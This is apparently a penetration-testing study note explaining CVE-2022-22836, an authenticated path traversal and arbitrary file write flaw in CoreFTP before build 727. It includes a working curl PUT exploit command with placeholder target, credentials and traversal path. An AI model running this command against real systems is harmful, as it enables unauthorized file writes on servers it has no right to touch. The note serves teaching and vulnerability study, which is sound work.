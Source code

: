 - `CoreFTP before build 727` vulnerability assigned [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836). 
- This vulnerability is for an FTP service that does not correctly process the `HTTP PUT` request and leads to an `authenticated directory`/`path traversal,` and `arbitrary file write` vulnerability. 
- This vulnerability allows us to write files outside the directory to which the service has access.
## The Concept of the Attack
The [exploit](https://www.exploit-db.com/exploits/50652) for this attack is relatively straightforward, based on a single `cURL` command.
#### CoreFTP Exploitation
```shell
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
We create a raw HTTP `PUT` request (`-X PUT`) with basic auth (`--basic -u <username>:<password>`), the path for the file (`--path-as-is https://<IP>/../../../../../whoops`), and its content (`--data-binary "PoC."`) with this command. Additionally, we specify the host header (`-H "Host: <IP>"`) with the IP address of our target system.
#### The Concept of Attacks
![[core-ftp.png]]



